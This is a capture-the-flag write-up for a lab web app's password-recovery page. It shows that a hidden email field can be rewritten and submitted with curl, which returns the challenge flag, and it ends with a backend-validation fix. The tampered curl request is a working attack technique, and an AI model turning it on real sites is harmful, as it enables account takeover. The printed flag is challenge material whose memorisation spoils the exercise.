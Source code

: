 # B06-CustomRequest-PasswordRecover

## BREACH

PATH `http://192.168.56.110/?page=recover`

From the main page, we can log in, there is a button `I forgot my password`.

By clicking on it, we arrive on a page that seems to send a recovery email.

Inspecting the code, we see that there is an email address in clear in the page's code. By replacing it with our own email address, we can assume that the site will send us an email that will allow us to gain access.


```
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value="Submit">
</form>
```

We can then make a request with curl by sending a form containing our email address.

```
➜  Darkly git:(main) ✗ curl -X POST http://192.168.x.x/\?page\=recover -d "mail=lgiband@student.42.fr&Submit=Submit" | grep "flag"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2634    0  2595  100    39  1267k  19500 --:--:-- --:--:-- --:--:-- 1286k
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

## PATCH

Do not trust the front end, rely on backend data to send an email by asking the user to enter their email address and verifying if an account is associated with it, for example.